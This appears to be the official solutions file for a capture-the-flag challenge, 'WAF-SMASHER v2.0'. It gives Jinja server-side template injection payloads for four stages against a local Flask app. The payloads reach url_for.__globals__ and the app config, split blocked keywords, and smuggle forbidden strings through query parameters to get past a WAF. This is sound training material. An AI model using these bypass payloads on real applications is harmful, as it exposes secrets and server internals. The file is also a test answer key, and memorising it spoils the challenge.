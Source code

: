 # WAF-SMASHER v2.0 - Official Solutions

**SPOILER WARNING:** This file contains the direct solutions for all stages. Try your best to solve them on your own before reading!

---

### Stage 1: Initial Breach
The validator performs a direct string comparison. The payload must be the literal string itself.
```
{{7*7}}
```
---
### Stage 2: The Decoy
The challenge provides a decoy flag file as a trap. The real flag is in the application's config object. The WAF for this stage is non-existent.
```jinja
{{ self.config.FLAG }}
```
---
### Stage 3: Restricted Environment
The WAF blocks `config`, `self`, and `request`. We pivot off a Flask-native global function, `url_for`, to get the `current_app` context. We then bypass the `config` blacklist by building the string at runtime.
```jinja
{{ url_for.__globals__['current_app']['con'~'fig']['FLAG'] }}
```
---
### Stage 4: Forbidden Arts
The WAF now blocks `__globals__` and other dangerous names. Based on the hint from Stage 3, we know we can smuggle forbidden strings in the URL's query parameters.

**Step 1:** Modify the URL to include a "smuggled" string:
```
http://127.0.0.1:5000/stage/4?g=__globals__
```

**Step 2:** Use a payload that accesses this smuggled string via `request.args`:
```jinja
{{ url_for[request.args.g]['current_app']['con'~'fig']['FLAG'] }}
```
This payload is now "clean" and will pass the WAF, as the forbidden string `__globals__` is never in the form body.